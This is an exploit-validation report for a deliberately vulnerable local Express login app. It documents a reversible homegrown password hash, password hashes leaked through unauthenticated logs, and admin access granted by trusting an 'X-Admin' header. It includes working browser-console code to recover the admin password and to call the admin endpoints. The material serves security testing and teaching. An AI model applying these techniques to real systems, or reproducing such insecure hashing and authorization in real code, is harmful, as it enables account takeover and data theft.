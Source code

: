 # Exploit Validation – Vuln Login API

## Target overview
- **App**: Express server with Windows 95-style static frontend
- **Base URL**: `http://localhost:3000`
- **Notable routes**:
  - `POST /register` { email, password }
  - `POST /login` { email, password }
  - `GET /logs?limit=200` – returns plaintext server log tail (no auth)
  - `GET /admin/users` – requires client header `X-Admin: 1` (server blindly trusts it)
  - `GET /admin/docs` – same weak “admin” check
- **Admin heartbeat**: server auto-creates `admin@example.com` with password `win95!` (on boot) and performs `POST /login` as admin once per minute, producing log lines that include the admin’s hash.

## Vulnerability catalog
1) **Reversible, homegrown password “hash” (critical)**
   - Server algorithm (`src/hash/hash.js`):
     - Compute printable prefix by shifting each character of `(password + email)` by `-password.length` within ASCII 33–126.
     - Append a random 20-char alnum suffix: final hash = `prefix + suffix`.
   - Validation only checks `storedHash.startsWith(prefix)` and that suffix matches `[A-Za-z0-9]{20}`. The suffix is ignored for correctness; it’s just format.
   - Consequences:
     - Deterministic and reversible. Given the prefix and the email, the password can be recovered because the mapping is a fixed modular shift by a known length.
     - Password length is leaked: `len(prefix) - len(email)` (suffix is always 20).

2) **Sensitive secrets logged and publicly exposed (critical)**
   - Registration and login append lines containing the full `hash=...` to `logs/app.log`.
   - `GET /logs` serves the log tail to any client without auth.
   - Admin heartbeat forces an admin login line roughly every 60 seconds, ensuring frequent leakage of `admin`’s full hash.

3) **Insecure “admin” authorization (critical)**
   - Server trusts the header `X-Admin: 1` (or `?admin=1`) in `src/routes/admin.js` and does not verify a session/token.
   - Any client (or JS in the browser) can set this header and call `/admin/users` or `/admin/docs`.
   - The frontend UI disables buttons until admin login, but this is only client-side gating; it can be bypassed easily (see attacks below).

4) **Broad attack surface and weak defaults (high)**
   - Wide-open CORS, no rate limiting, verbose error stacks, no HTTPS, no CSRF protections, logs include request paths plus external joke fetches.

## Primary exploit paths (frontend-only)
A) Hash reversal from leaked admin hash → admin login
1. Open the app homepage. In the Start menu, open “View Logs”. Wait up to 60 seconds for an admin login line to appear, e.g.:
   - `LOGIN email=admin@example.com userFound=true hash=<HASH_VALUE> ok=true`
2. Compute values:
   - `full = <HASH_VALUE>`
   - `prefix = full.slice(0, -20)`
   - `passwordLength = prefix.length - 'admin@example.com'.length`
3. Recover the password from the prefix using the inverse of the printable shift. Paste this in the browser console:

```js
// Recover password from leaked prefix for a known email
function recoverPasswordFromPrefix(prefix, email) {
  const PRINTABLE_START = 33, PRINTABLE_END = 126;
  const RANGE = PRINTABLE_END - PRINTABLE_START + 1;
  // Derive password length from lengths
  const passwordLength = prefix.length - email.length;
  const codes = [];
  for (let i = 0; i < prefix.length; i += 1) {
    let orig = prefix.charCodeAt(i) + passwordLength; // inverse of (-passwordLength)
    while (orig > PRINTABLE_END) orig -= RANGE;
    while (orig < PRINTABLE_START) orig += RANGE;
    codes.push(orig);
  }
  const combined = String.fromCharCode(...codes);
  const recoveredPassword = combined.slice(0, passwordLength);
  const recoveredEmailPart = combined.slice(passwordLength);
  if (recoveredEmailPart !== email) console.warn('email mismatch, check inputs');
  return recoveredPassword;
}
// Example usage:
// const full = '...';
// const prefix = full.slice(0, -20);
// const pw = recoverPasswordFromPrefix(prefix, 'admin@example.com');
// console.log('Recovered password:', pw);
```

4. Use the recovered password to log in as `admin@example.com` via the Login window. Expected: HTTP 200 and `{ success: true }`.

B) Admin endpoints via header trust (even simpler)
1. Open DevTools console in the browser UI and force “admin session” on the client:

```js
sessionStorage.setItem('adminLoggedIn', '1');
```

2. Now call the endpoints directly from the page (or use the Admin Panel buttons):

```js
fetch('/admin/users', { headers: { 'X-Admin': '1' } })
  .then(r => r.json()).then(console.log);
fetch('/admin/docs', { headers: { 'X-Admin': '1' } })
  .then(r => r.json()).then(console.log);
```

This works from any machine that can reach the server because the server never verifies a real admin session; it only checks the header.

## Verification checklist
- **Exploit works**: yes (both A and B paths).
- **Success rate > 80%**: yes. With the admin heartbeat, success is ≈100% once logs are visible.
- **Works from a separate machine**: yes. CORS is open and `/logs`, `/admin/users`, `/admin/docs` are reachable; header trust works remotely.
- **Another team can reproduce**: yes; follow steps above. Everything is in-app, no special tooling required beyond a browser.
- **Time to exploit < 5 minutes**: yes (typically 1–3 minutes including waiting for a heartbeat log line).

## Full reproduction (recommended script)
1. Open `http://localhost:3000`.
2. Start → “View Logs” → wait for an admin `LOGIN ... hash=...` line.
3. Copy the hash value and in the browser console run the snippet under “Hash reversal”.
4. Log in as `admin@example.com` with the recovered password.
5. Optionally confirm data access: Start → Admin Panel → “Load Users” / “Load Docs”.

Alternative quick check (header trust)
- In DevTools console:

```js
fetch('/admin/users', { headers: { 'X-Admin': '1' } })
  .then(r => r.json()).then(console.log);
```

